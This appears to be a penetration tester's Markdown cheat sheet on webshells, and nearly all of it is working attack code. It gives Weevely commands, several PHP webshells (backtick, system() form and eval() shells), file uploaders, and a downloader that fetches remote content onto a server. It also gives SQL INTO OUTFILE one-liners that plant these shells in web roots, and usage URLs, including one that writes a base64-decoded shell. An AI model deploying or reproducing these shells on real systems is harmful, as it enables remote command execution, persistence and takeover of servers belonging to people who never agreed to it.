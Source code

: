 # Webshells

## 01 - Weevely

^e8491c

Unlike the regular reverse/bind shells that we use to receive a connection. Webshells functions way differently that it doesn't require port forwarding nor a C2 server when sending commands from the attacker. It only requires a foothold to continue on the cyber intrusion.

- Generate a weevely webshell

`$ weevely generate <password> <path>`

- After succesfully uploading on the target's system we can finally move on to post exploitation phase.

`$ weevely <URL> <password>`

Navigate to the **Command and Control** section related to [[05 - Spawn Callback Shell|spawn callback shell]].

## 02 - Webshells

### 2.1 - Simple Webshells

- Tiny webshell

```php
<?=`$_GET[0]`?>
```

- Basic webshell with HTML input form

```php
<html>
    <body>
        <form method="get" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
            <input type="text" name="cmd" autofocus id="cmd" size="80">
            <input type="submit" value="Execute">
        </form>
        <pre>
            <?php
            if(isset($_GET["cmd"])) {
                echo system($_GET["cmd"] . " 2&<1");          
            }
            ?>
        </pre>
    </body>
</html>
```

### 2.2 - Oneliners

#### 2.2.1 - MySQL

```sql
SELECT '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';

SELECT '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE 'C:\\inetpub\\wwwroot\\phpmyadmin\\config\\shell.php';

SELECT '<HTML><BODY><FORM METHOD="GET" NAME="myform" ACTION=""><INPUT TYPE="text" NAME="cmd"><INPUT TYPE="submit" VALUE="Send"></FORM><pre><?php if($_GET["cmd"]) {​​system($_GET["cmd"]);}​​ ?> </pre></BODY></HTML>' INTO OUTFILE '/var/www/html/shell.php'
```

### 2.3 - Uploader

- Simple PHP uploader

`$ cat uploader.php`

---

```php
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>File Upload</title>
    </head>
    <body>
        <h2>File Upload</h2>
        <form action="<?php echo $_SERVER['PHP_SELF']; ?>" method="POST" enctype="multipart/form-data">
            <input type="file" name="fileToUpload" id="fileToUpload">
            <input type="submit" value="Upload" name="submit">
        </form>

        <?php
        if (isset($_POST['submit'])) {
            if (!empty($_FILES['fileToUpload']['name'])) {
                $targetDir = './'; // Upload to the same directory as the PHP script
                $targetFile = $targetDir . basename($_FILES['fileToUpload']['name']);

                if (move_uploaded_file($_FILES['fileToUpload']['tmp_name'], $targetFile)) {
                    echo "File uploaded successfully.";
                } else {
                    echo "Sorry, there was an error uploading your file.";
                }
            } else {
                echo "Please choose a file to upload.";
            }
        }
        ?>
    </body>
</html>
```

One liner PHP code.

```php
<?php if(isset($_POST['submit'])){$t='./';$f=$t.basename($_FILES['fileToUpload']['name']);if(move_uploaded_file($_FILES['fileToUpload']['tmp_name'],$f))echo"File uploaded successfully.";else echo"Sorry, there was an error uploading your file.";}?> <!DOCTYPE html><html lang="en"><head><meta charset="UTF-8"><meta name="viewport" content="width=device-width, initial-scale=1.0"><title>File Upload</title></head><body><h2>File Upload</h2><form action="<?=$_SERVER['PHP_SELF']?>" method="POST" enctype="multipart/form-data"><input type="file" name="fileToUpload" id="fileToUpload"><input type="submit" value="Upload" name="submit"></form></body></html>
```

SQL Query for reference.

```sql
SELECT '<?php if(isset($_POST[\'submit\'])){$t=\'./\';$f=$t.basename($_FILES[\'fileToUpload\'][\'name\']);if(move_uploaded_file($_FILES[\'fileToUpload\'][\'tmp_name\'],$f))echo"File uploaded successfully.";else echo"Sorry, there was an error uploading your file.";}?>\n<!DOCTYPE html><html lang=\"en\"><head><meta charset=\"UTF-8\"><meta name=\"viewport\" content=\"width=device-width, initial-scale=1.0\"><title>File Upload</title></head><body><h2>File Upload</h2><form action=\"<?=$_SERVER[\'PHP_SELF\']?>\" method=\"POST\" enctype=\"multipart/form-data\"><input type=\"file\" name=\"fileToUpload\" id=\"fileToUpload\"><input type=\"submit\" value=\"Upload\" name=\"submit\"></form></body></html>' INTO OUTFILE '/var/www/html/uploader.php'
```

- PHP uploader with table view

```php
<!-- https://community.netwitness.com/t5/netwitness-community-blog/from-sql-injection-to-webshell/ba-p/521012 -->
<!DOCTYPE html>
<html>
	<head>
	    <title>File Upload</title>
	</head>
	<body>
	    <form enctype="multipart/form-data" method="POST">
	        File: <input name="file" type="file"><br>
	        <input type="submit" value="Upload">
	    </form>
	
	    <?php
	    if (!empty($_FILES["file"])) {
	        $file = $_FILES["file"];
	        if ($file["error"] > 0) {
	            echo "Error: {$file['error']}<br>";
	        } else {
	            echo "Stored file: {$file['name']}<br>Size: " . ($file["size"] / 1024) . " kB<br>";
	            move_uploaded_file($file["tmp_name"], $file["name"]);
	        }
	    }
	
	    $dirArray = array_filter(scandir("."), function($entry) { return $entry[0] !== "."; });
	    $indexCount = count($dirArray);
	    echo "$indexCount files<br><table border=1 cellpadding=5 cellspacing=0 class=whitelinks><tr><th>Filename</th><th>Filetype</th><th>Filesize</th></tr>";
	
	    foreach($dirArray as $entry) {
	        echo "<tr><td><a href=\"$entry\">$entry</a></td><td>" . filetype($entry) . "</td><td>" . filesize($entry) . "</td></tr>";
	    }
	
	    echo "</table>";
	    ?>
	</body>
</html>
```

- One liner PHP code

```php
<!DOCTYPE html><html><head><title>File Upload</title></head><body><form enctype="multipart/form-data" method="POST">File: <input name="file" type="file"><br><input type="submit" value="Upload"></form><?php if (!empty($_FILES["file"])) {$file = $_FILES["file"];if ($file["error"] > 0) {echo "Error: {$file['error']}<br>";} else {echo "Stored file: {$file['name']}<br>Size: " . ($file["size"] / 1024) . " kB<br>";move_uploaded_file($file["tmp_name"], $file["name"]);}$dirArray = array_filter(scandir("."), function($entry) { return $entry[0] !== "."; });$indexCount = count($dirArray);echo "$indexCount files<br><table border=1 cellpadding=5 cellspacing=0 class=whitelinks><tr><th>Filename</th><th>Filetype</th><th>Filesize</th></tr>";foreach($dirArray as $entry) {echo "<tr><td><a href=\"$entry\">$entry</a></td><td>" . filetype($entry) . "</td><td>" . filesize($entry) . "</td></tr>";}echo "</table>";?></body></html>
```

### 2.4 - Downloader

```php
<?php fwrite(fopen($_GET[f], 'w'), file_get_contents($_GET[u])); ?>
```

SQL Query for reference.

```sql
SELECT '<?php fwrite(fopen($_GET[f], \'w\'), file_get_contents($_GET[u])); ?>' INTO OUTFILE '/var/www/html/downloader.php'
```

### 2.5 - Evaluate PHP Code

```php
<?php eval($_GET[evaluate]); ?>
```

#### 2.5.1 - MySQL

SQL Query for reference.

```sql
SELECT '<?php eval($_GET[evaluate]); ?>' INTO OUTFILE '/var/www/html/eval_php.php'
```

#### 2.5.2 - Usage

- Gather PHP Version

```
http[s]://<URL>//eval_php.php?evaluate=phpinfo();
```

- Base64 encoded

```
http[s]://<URL>//eval_php.php?evaluate=if(file_put_contents('webshell.php', base64_decode(<base64_encoded>))){ echo 1;} else {echo 2;}
```

### 2.6 - Laudanum

You can navigate to `/usr/share/laudanum` or `/usr/share/webshells` based on what pentest distro you have or you can clone it on github

---
## References

- [Webshell](https://oscp.infosecsanyam.in/shells/webshell)

- [p0wny-shell](https://github.com/flozz/p0wny-shell)